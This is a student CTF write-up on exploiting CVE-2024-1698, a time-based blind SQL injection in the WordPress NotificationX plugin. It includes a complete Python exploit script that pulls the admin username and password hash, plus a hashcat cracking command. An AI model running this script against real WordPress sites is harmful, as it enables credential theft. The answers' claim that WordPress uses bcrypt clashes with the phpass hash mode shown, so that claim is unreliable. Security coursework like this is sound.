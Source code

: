 # CTF Week #8 (SQL Injection)

By exploring the website, using the developer tools, we obtained:

![Image 1](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/CTF8_img1.png)

We discovered that the website has the following plugins:
- Wordpress version 6.7.1.
- NotificationX version 2.8.1.
- FontAwesome version 4.7.0.

After that, we did some research to find any vulnerabilities in that plugins related to SQLinjection.
We found **CVE-2024-1698** on **WordPress NotificationX** .


By searching for the CVE exploit, we found this exploit script, which we adapted to our website:

```
import requests
import string
from sys import exit

# Sleep time for SQL payloads
delay = 0.3

# URL for the NotificationX Analytics API
url = "http://44.242.216.18:5008//wp-json/notificationx/v1/analytics"

admin_username = ""
admin_password_hash = ""

session = requests.Session()

# Find admin username length
username_length = 0
for length in range(1, 41):  # Assuming username length is less than 40 characters
    resp_length = session.post(url, data={
        "nx_id": 1337,
        "type": f"clicks`=IF(LENGTH((select user_login from wp_users where id=1))={length},SLEEP({delay}),null)-- -"
    })

    # Elapsed time > delay if delay happened due to SQLi
    if resp_length.elapsed.total_seconds() > delay:
        username_length = length
        print("Admin username length:", username_length)
        break

# Find admin username
for idx_username in range(1, username_length + 1):
    # Iterate over all the printable characters + NULL byte
    for ascii_val_username in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_username = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_login from wp_users where id=1),{idx_username},1))={ascii_val_username},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_username.elapsed.total_seconds() > delay:
            admin_username += chr(ascii_val_username)
            # Show what we have found so far...
            print("Admin username:", admin_username)
            break  # Move to the next character
    else:
        # Null byte reached, break the outer loop
        break

# Find admin password hash
for idx_password in range(1, 41):  # Assuming the password hash length is less than 40 characters
    # Iterate over all the printable characters + NULL byte
    for ascii_val_password in (b"\x00" + string.printable.encode()):
        # Send the payload
        resp_password = session.post(url, data={
            "nx_id": 1337,
            "type": f"clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),{idx_password},1))={ascii_val_password},SLEEP({delay}),null)-- -"
        })

        # Elapsed time > delay if delay happened due to SQLi
        if resp_password.elapsed.total_seconds() > delay:
            admin_password_hash += chr(ascii_val_password)
            # Show what we have found so far...
            print("Admin password hash:", admin_password_hash)
            # Exit condition - encountered a null byte
            if ascii_val_password == 0:
                print("[*] Admin credentials found:")
                print("Username:", admin_username)
                print("Password hash:", admin_password_hash)
                exit(0)
```

Then we changed the delay to 1, to handle possible limitations in responde time of the server.
By running the exploit, we obtained the hashed password!

![Image 3](https://git.fe.up.pt/fsi/fsi2425/logs/l05g06/-/raw/main/Images/CTF8_img3.png)

To recover the original password, we used Hashcat to crack the hash. We started by saving the hash in a file named password.txt. Then, we ran the Hashcat command to crack the hash using the rockyou.txt wordlist:

```hashcat -m 400 -a 0 password.txt rockyou.txt```

With this command we finally obtained the password ```heartbroken```.


### Questions

#### You already know that the goal is to exploit an SQL injection vulnerability. Are there any reported vulnerabilities in public databases and/or tools that allow the discovery and exploitation of SQL injection vulnerabilities?

Yes, we used CVE-2024-1698 for the NotificationX plugin, which allowed SQL injection due to improperly sanitized input fields.

#### What is the vulnerable endpoint of the website, and how can an attack be carried out? How can the vulnerability be classified?

The vulnerable endpoint is the NotificationX Analytics API. The attack is carried out by injecting malicious SQL payloads into the type parameter, exploiting improper input validation. This is a time-based blind SQL injection, where the injected SQL queries cause the server's response time to be delayed based on the condition specified. This allows attackers to extract data from the database by observing response times, without directly revealing the data. The vulnerability is classified as improper input sanitization."


#### The attack will allow you to extract information from the server's database. Specifically, you want to find the administrator's password, but as dictated by good security practices, it is not stored in plain text in the database, but as a hash of the original password. For this server, in more detail, what is the password storage policy?

The server likely follows WordPress's default policy of storing passwords as hashed values using the wp_users table. WordPress uses PHP’s wp_hash_password() function, which relies on modern hashing algorithms like bcrypt, providing computational security against direct password retrieval.

#### Is storing a hashed password secure in the sense that it makes recovering the original password impossible? This issue is very common not only in the case of vulnerabilities but also in data leaks. There are various ways to attempt to reverse hash functions to recover passwords and tools to automate this process.

Hashing makes direct recovery of the original password impossible, but it does not prevent attacks. In this case, using tools like Hashcat with popular wordlists (e.g., rockyou.txt) allows attackers to automate the recovery of weak or common passwords. Stronger protection would require the use of salted hashes and encouraging users to set complex passwords.
